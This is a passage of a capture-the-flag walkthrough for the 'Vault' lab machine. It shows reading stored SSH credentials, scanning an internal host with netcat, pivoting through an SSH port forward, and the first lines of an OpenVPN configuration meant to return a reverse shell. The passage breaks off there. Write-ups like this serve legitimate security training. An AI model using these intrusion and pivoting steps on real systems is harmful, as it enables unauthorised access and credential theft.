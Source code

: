 DNS + Configurator - 192.168.122.4

Firewall - 192.168.122.5

The Vault - x

www-data@ubuntu:/home/dave/Desktop$ cat key

itscominghome

www-data@ubuntu:/home/dave/Desktop$ cat ssh

dave

Dav3therav3123

www-data@ubuntu:/home/dave/Desktop$

We can now login using ssh and the user dave and the password Dav3therav3123.

In the file Servers, it mentioned another machine at the IP address "192.168.122.4". you can see from using the command "ifconfig" that the machine vault has 2 network interfaces with the interface "virbr0" having the IP address 192.168.122.1. you can check what ports might be on the machine with the IP address "192.168.122.4 by using Netcat:

nc -vz 192.168.122.4 1-100

The -v flag allows for verbose output and the -z flag does not connect to the port, it just checks if it could connect. Using this, you see that ports 22 and 80 are open.

We can now do a local port forward to get access to port 80 on the box 192.168.122.4

┌─\[rin@parrot\]─\[~/boxes/Vault\]

└──╼ $ssh -N -L 8081:192.168.122.4:80 dave@vault.htb

dave@vault.htb's password:

This then allows us to navigate to the web site at [http://127.0.0.1:8081](http://127.0.0.1:8081) where you get links related to DNS and VPN configuration \(Figure 3-4\).

!\[Text

Description automatically generated\]\(../.gitbook/assets/2%20%282%29.png\)

Home page on port 8081

The first link goes to a page under construction. The second is a page that allows for openvpn configurations to be tested \(Figure 3-5\).

!\[Graphical user interface, text, application, email

Description automatically generated\]\(../.gitbook/assets/3%20%281%29.png\)

VPN Configurator page

Searching for OpenVPN configuration exploits, you find a blog post by Jacob Baines[\[2\]](initial-access.md) which gives a configuration for returning a reverse shell. Adapting this, you can paste the following into the page, update the file and then click Test VPN.

Remote 192.168.122.1

nobind
